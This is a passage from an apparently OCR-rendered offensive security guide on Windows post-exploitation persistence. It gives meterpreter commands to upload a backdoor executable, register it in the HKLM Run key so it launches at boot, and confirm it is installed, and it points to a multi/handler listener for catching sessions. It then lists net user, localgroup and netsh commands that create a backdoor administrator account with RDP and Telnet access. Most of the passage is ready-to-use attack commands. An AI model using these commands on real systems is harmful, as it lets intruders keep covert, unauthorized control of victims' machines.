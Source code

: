 **Verifying Changes**

Use the `reg` command to check the registry value and confirm the backdoor is installed:
```
meterpreter> reg queryval -k HKLM\Software\Microsoft\Windows\CurrentVersion\Run -v nZVDeQbFvEi
```

**Starting a Session**

To get a session on the target machine, start a listener and wait for incoming connections using the `exploit/multi/handler` module. Ensure that the same options (payload, IP address, and port) match those used with persistence.

Each time the target machine reboots, you can establish a session since the script runs at boot.

**Creating Your Own Backdoor**

If you create your own backdoor using `msfvenom`, Veil, or The Backdoor Factory, you can follow these steps:

1. Upload the backdoor file to the victim machine:
   ```
   upload /root/my_bd.exe C:\\Windows\
   ```
   
2. Edit the Windows Registry to run the backdoor at startup:
   ```
   reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -d "C:\Windows\my_bd.exe" -v bd_name
   ```

For tools like Veil and The Backdoor Factory:
- https://github.com/Veil-Framework/
- https://github.com/secretsquirrel/the-backdoor-factory

##  New User

1. **Create a New User:**
   ```
   net user attacker Password123 /add
   ```

2. **Add User to Administrator Group (for RDP, etc.):**
   ```
   net localgroup administrators attacker /add
   ```

3. **Enable RDP Access (if needed):**
   ```
   net localgroup "Remote Desktop Users" attacker /add
   # or 
   netsh advfirewall set rule group="remote desktop" new enable=yes
   ```

4. **For Telnet Access (if Telnet is enabled on the system):**
   ```
   net localgroup TelnetClients attacker /add
   ```

These commands ensure the new user has administrative privileges and access to important services.
